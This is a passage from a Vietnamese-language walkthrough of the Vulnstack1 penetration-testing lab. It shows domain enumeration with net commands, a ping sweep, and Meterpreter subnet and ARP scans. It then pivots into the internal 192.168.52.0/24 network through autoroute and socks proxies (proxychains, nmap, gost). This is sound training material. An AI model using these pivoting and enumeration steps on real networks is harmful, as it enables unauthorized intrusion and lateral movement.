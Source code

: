for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.52.%I | findstr "TTL="
```
**Find information in the domain**
```
net view/domain : View domain
net group/domain : View the list of all users in the domain
net group "domain computers"/domain : View the list of domain member computers
group "domain computers" /domain : View other user in domain
net group "domain controllers" /domain : View domain controller
```
Và rất nhiều command khác. Sau khi có ít nhiều thông tin về server cũng như domain GOD.ORG .Giờ chúng ta sẽ scan, exploit mạng internal bên trong

**Các subnet của server**\
run get_local_subnets

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/39.jpg)

Như vậy đúng là có 2 subnet là dải 192.168.18.0/24 và 192.168.52.0/24. Dải 192.168.18.0/24 là dải  từ máy kali của chúng ta có thể nhìn thấy. 192.168.52.0/24 là dải mạng internal bên trong. Giờ hãy scan để xem các host có trong mạng internal

**scan host bên trong mạng internal sử dụng metasploit:**
```
run arp_scanner -r 192.168.52.0/24
```
như vậy ngoài 192.168.52.143 là IP của máy windows 7 thì bên trong chúng ta còn thấy 2 server khác nữa là 192.168.52.138 và 192.168.52.141

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/40.jpg)

**scan port sử dụng metasploit:**\
Muốn nhìn được mạng internal bên trong chúng ta phải add route cho metasploit
```
meterpreter > run post/multi/manage/autoroute CMD=add SUBNET=192.168.52.0 NETMASK=255.255.255.0 #add route
route add 192.168.52.0 255.255.255.0 1(session id) #other way add route
```

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/41.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/42.jpg)

**Hãy xem cách khác ít lệ thuộc metasploit hơn bằng nnap: Kết hợp nmap + proxychains + socks5 proxy**\
tạo socks proxy với metasploit (lưu ý cũng cần add route mạng internal trước)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/43.jpg)

Thay đổi file config proxychains

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/44.jpg)

Nmap scan thành công mạng internal qua socks5 proxy được tạo bởi metasploit

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/45.jpg)

**Giờ chúng ta không muốn lệ thuộc vào metasploit. Cùng tạo socks proxy không dùng metasploit**\
ở đây mình sử dụng công cụ gost: https://github.com/ginuerzh/gost . Vì mình thích golang. Nên mình cũng thích sử dụng những công cụ được viết bằng go. Ngoài ra còn rất nhiều công cụ để tạo socks proxy khác: Chisel, …\
Download phiên bản cho windows, tải và chạy trên windows 7\
```
.\gost-windows-386.exe -L socks5://:9000
```
```